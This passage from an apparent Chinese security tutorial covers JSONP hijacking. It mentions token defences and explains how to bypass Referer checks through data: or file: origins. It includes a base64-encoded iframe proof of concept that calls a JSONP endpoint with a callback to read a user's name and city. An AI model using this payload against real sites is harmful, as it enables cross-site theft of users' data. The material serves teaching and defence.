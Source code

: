 ```php
```

![image-20200627145813752](/images/jsonp/image-20200627145813752.png)

2、使用token

随机的生成一段token值，每次提交表单都要检查，攻击者没有token就不能访问（token后台服务随机分配）

#### 绕过方式

利用`ftp://,http://,https://,file://,javascript:,data:`这个时候浏览器地址栏是file://开头的，如果这个HTML页面向任何http站点提交请求的话，这些请求的Referer都是空的。

```html
<html>
    <body>
       <iframe src="data:text/html;base64,PHNjcmlwdD4KZnVuY3Rpb24gY3NyZihkYXRhKXsKICAgIGFsZXJ0KCJuYW1lOiIrZGF0YS5uYW1lKyJjaXR5OiIrZGF0YS5jaXR5KTsKfQo8L3NjcmlwdD4KPHNjcmlwdCBzcmM9Imh0dHA6Ly95b3VybHMubWU6NDQ0NC9kYXRhLnBocD9jYWxsYmFjaz1jc3JmJm5hbWU9YWRtaW4iPgo8L3NjcmlwdD4=">
    </body>
</html>
```

### 参考

```
https://www.smi1e.top/%E6%B5%85%E8%B0%88-jsonp/
https://xz.aliyun.com/t/6539
https://blog.knownsec.com/2015/03/jsonp_security_technic/
之前乌云drops文档
```
